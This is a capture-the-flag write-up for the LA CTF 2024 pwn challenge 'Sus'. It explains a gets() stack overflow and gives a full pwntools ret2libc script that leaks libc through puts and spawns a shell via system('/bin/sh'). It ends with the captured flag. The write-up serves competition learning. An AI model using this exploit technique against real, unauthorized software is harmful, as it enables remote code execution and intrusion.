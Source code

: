 ```yaml
---
title: Sus
date: 2024-02-22T01:42:02+02:00
description: Writeup for Sus [LA CTF 2024]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

sus

## Intuition

The challenge is a simple return to libc with ROP. We need to leak the libc base by printing the puts from GOT and then return to ``system``. Luckily, our input also overflows a variable that gets into RDI before return, which gives us control over what ``system`` executes. Running checksec on it shows us there is no PIE, which makes leaking libc through puts is even easier.
```
$ checksec sus
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   38 Symbols	  No	0		1		sus
```

And the decompilation of the challenge:

```c
undefined8 main(void)

{
  char local_48 [56];
  undefined8 local_10;
  
  setbuf(stdout,(char *)0x0);
  local_10 = 0x45;
  puts("sus?");
  gets(local_48);
  sus(local_10);     // <----- local_10 is copied to RDI
  return 0;
}
```

## Solution

Plan is simple:
1. Overflow local_10 to contain the address of puts from GOT
2. Return to puts from PLT to leak libc and then chain back to main
3. Calculate offsets to system and to a string in libc containing "/bin/sh"
4. Overflow local_10 to contain the address of "/bin/sh"
5. Return to system

And the script:
```py
#!/usr/bin/env python3

from pwn import *

is_remote = True

ret = 0x00401016
gets_plt = 0x00401050
puts_plt = 0x00401030
puts_got = 0x00404000
main = 0x00401151

if is_remote:
    system_offset = 0x04c490
    puts_offset = 0x077980
    bin_sh_offset = 0x196031
else:
    system_offset = 0x50d70
    puts_offset = 0x80e50
    bin_sh_offset = 0x1d8678

if is_remote:
    target = remote("chall.lac.tf", 31284)
else:
    target = process("./sus")

payload = 0x38 * b'A' + p64(puts_got) + 0x8 * b'B' + p64(puts_plt) + p64(main)
target.sendlineafter(b"sus?\n", payload)

# return from main
# now it should chain to puts_plt and leak puts_got
leak = target.recvline()[:-1] +  b"\x00\x00"
print(leak)
print(hex(u64(leak)))

libc_base = u64(leak) - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset

# get shell
payload = 0x38 * b'A' + p64(bin_sh) + 0x8 * b'B' + p64(ret) + p64(system)

target.sendlineafter(b"sus?\n", payload)

target.interactive()
```

### Flag

``lactf{amongsus_aek7d2hqhgj29v21}``
